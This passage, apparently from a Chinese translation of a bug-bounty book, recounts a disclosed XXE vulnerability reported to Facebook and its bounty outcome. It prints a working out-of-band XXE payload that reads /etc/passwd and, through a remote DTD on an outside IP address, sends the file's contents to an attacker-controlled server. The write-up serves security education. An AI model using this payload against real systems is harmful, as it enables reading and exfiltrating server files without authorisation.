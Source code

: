```xml
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd"> 
%dtd; 
%send; 
]]>
```

你会想到，在解析的时候，如果受害者开启了外部实体，XML 解析器会调用远程主机。要注意`!ENTITY `定义中和下面使用了`%`。这是因为这些占位符用在 DTD 自身中。在收到请求调用之后，远程服务器会发送回 DTD 文件，像这样：

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?%26file;'>"
```

所以，回到文件中的载荷：

1.  解析器会将`%dtd;`替换为获取远程 DTD 文件的调用。

2，  解析器会将`%send;`替换为服务器的远程调用，但是`%file;`会替换为`file:///etc/passwd`的内容。

所以，Mohamed 使用 Python 和`SimpleHTTPServer`开启了一台本地服务器，并等待接收：

![](img/14-2-1.jpg)

Facebook 远程调用的攻击截图

在报告之后，Facebook 发送了回复，拒绝了这个报告，并说它们不能重现它，并请求内容的视频验证。在交换一些信息之后，Facebook 提到招聘人员可能打开了文件，它会发送任意请求。Facebook 自傲组做了一些深入的挖掘，并给予了奖金，发送了一个邮件，解释了这个 XXE 的影响比 2013 年初的要小，但是仍然是一个有效的利用，这里是这个信息。

![](img/14-2-2.jpg)
